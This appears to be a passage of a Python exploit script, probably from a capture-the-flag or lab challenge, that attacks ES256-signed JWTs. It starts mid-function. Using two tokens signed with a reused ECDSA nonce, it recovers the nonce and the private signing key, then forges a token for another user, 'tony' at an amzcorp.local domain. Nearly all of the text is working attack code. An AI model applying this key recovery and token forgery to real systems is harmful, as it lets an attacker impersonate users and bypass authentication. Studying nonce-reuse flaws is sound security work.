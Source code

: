 ```bash
    sig = Signature(sig_val >> 256, sig_val % (2**256))
    return head, data, msg, h, sig

def recover_keys(jwt1, jwt2):
    _, _, _, h1, sig1 = split_jwt(jwt1)
    _, _, _, h2, sig2 = split_jwt(jwt2)

    r1, s1 = sig1.r, sig1.s
    r2, s2 = sig2.r, sig2.s

    q = generator_256.order()
    k = ((h1 - h2) * inverse(s1 - s2, q)) % q
    d = ((s1 * k - h1) * inverse(r1, q)) % q

    return k, d

def sign(msg, privkey, k):
    msghash = hashlib.sha256(msg.encode()).digest()
    sig = privkey.sign(bytes_to_long(msghash), k)
    sig_val = (sig.r << 256) + sig.s
    return b64(long_to_bytes(sig_val))

def create_jwt(data, privkey, k):
    header = {"alg": "ES256"}
    _header = b64(json.dumps(header, separators=(',', ':')).encode())
    _data = b64(json.dumps(data, separators=(',', ':')).encode())
    _sig = sign(f"{_header}.{_data}", privkey, k)
    return f"{_header}.{_data}.{_sig}"

if __name__ == "__main__":
    jwt1 = "eyJhbGciOiJFUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3RxdWFuIiwiZW1haWwiOiJ0ZXN0cXVhbkBnbWFpbC5jb20iLCJhY2NvdW50X3N0YXR1cyI6dHJ1ZX0.C7UV_Vd_CxaMe1IENf44Kcn-dCxqhNFLkVBTQhkJR3wGTQMxiOmYVO3g0oP68TP7qNe9aITk4iXlkiaFbTS6Rg"
    jwt2 = "eyJhbGciOiJFUzI1NiJ9.eyJ1c2VybmFtZSI6InRlc3QxMzM3IiwiZW1haWwiOiJ0ZXN0MTMzN0BnbWFpbC5jb20iLCJhY2NvdW50X3N0YXR1cyI6dHJ1ZX0.C7UV_Vd_CxaMe1IENf44Kcn-dCxqhNFLkVBTQhkJR3xX_TVTTkLtcPlqPBUPGBz7Br5MK_V_eWW6J7UFBiZ_xw"

    k, d = recover_keys(jwt1, jwt2)
    print("[+] Recovered k =", k)
    print("[+] Recovered d =", d)

    G = generator_256
    pubkey = Public_key(G, G * d)
    privkey = Private_key(pubkey, d)

    target_data = {
        "username": "tony",
        "email": "tony@amzcorp.local",
        "account_status": True
    }
    forged_jwt = create_jwt(target_data, privkey, k)
    print("[+] Forged JWT for tony:\n")
    print(forged_jwt)
```
